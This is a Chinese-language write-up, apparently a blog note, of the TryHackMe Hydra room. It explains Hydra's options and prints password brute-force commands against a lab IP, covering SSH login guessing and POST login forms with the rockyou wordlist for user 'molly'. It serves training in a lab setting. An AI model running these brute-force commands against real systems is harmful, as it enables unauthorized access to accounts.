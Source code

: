 ```yaml
---
{"dg-publish":true,"permalink":"/tryhackme/tryhackme-hydra-基础知识/","title":"tryhackme-hydra 基础知识","tags":["linux","tryhackme","#渗透工具"]}
---
```


![t](/img/user/images/tryhackme-hydra-基础知识/title.png)

Hydra是啥
Hydra是一款暴力在线密码破解程序，一种快速系统登录密码“破解”工具。

SSH
hydra -l <username> -P <full path to pass> 10.10.228.178 -t 4 ssh

| 选项 | 描述 |
|------|------|
| -l   | 指定登录的（SSH）用户名 |
| -P   | 表示密码列表 |
| -t   | 设置要生成的线程数 |

例如， hydra -l root -P passwords.txt 10.10.228.178 -t 4 ssh将使用以下参数运行：

Hydra将root用作 ssh用户名
passwords.txt 它将尝试文件中的密码
将会有四个线程并行运行，如下所示 -t 4



发布 Web 表单
我们也可以使用Hydra来暴力破解 Web 表单。必须知道它发出的是哪种类型的请求；通常使用 GET 或 POST 方法。您可以使用浏览器的网络选项卡（在开发人员工具中）查看请求类型或查看源代码。

```
sudo hydra <username> <wordlist> 10.10.228.178 http-post-form "<path>:<login_credentials>:<invalid_response>"
```

| 选项            | 描述 |
|----------------|------|
| -l            | （Web 表单）登录的用户名 |
| -P            | 要使用的密码列表 |
| http-post-form | 表单类型为 POST |
| <path>        | 登录页面 URL，例如 login.php |
| <login_credentials> | 用于登录的用户名和密码，例如 `username=^USER^&password=^PASS^` |
| <invalid_response>  | 登录失败时的部分响应 |
| -V            | 每次尝试的详细输出 |


下面是一个更具体的Hydra命令示例，用于强制执行 POST 登录表单：
```
hydra -l <username> -P <wordlist> 10.10.228.178 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```
登录页面只有/，即主IP地址。
这username是输入用户名的表单字段
指定的用户名将替换^USER^
这password是输入密码的表单字段
提供的密码将取代^PASS^
最后，F=incorrect是登录失败时服务器回复中出现的字符串



![task1](/img/user/images/tryhackme-hydra-基础知识/task1.png)

第一问
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.228.178 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

在破解的时候要注意路径 是/login 

![task1](/img/user/images/tryhackme-hydra-基础知识/pass.png)

![task1](/img/user/images/tryhackme-hydra-基础知识/flag.png)

第二问
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.228.178 ssh
```

![task1](/img/user/images/tryhackme-hydra-基础知识/butterfly.png)